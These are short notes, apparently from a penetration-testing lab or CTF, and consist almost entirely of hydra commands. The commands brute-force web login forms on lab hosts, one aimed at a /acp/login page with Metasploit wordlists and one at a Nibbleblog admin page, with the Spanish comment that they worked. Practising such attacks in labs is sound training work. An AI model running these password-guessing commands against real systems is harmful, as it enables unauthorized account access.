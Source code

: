 `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-post-form "/acp/login:login_name=^USER^&login_psw=^PASS^:F=Login"


Ejemplos que funcionaron:

```bash
hydra -l admin -P wordlist.txt 10.129.155.168 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."
```

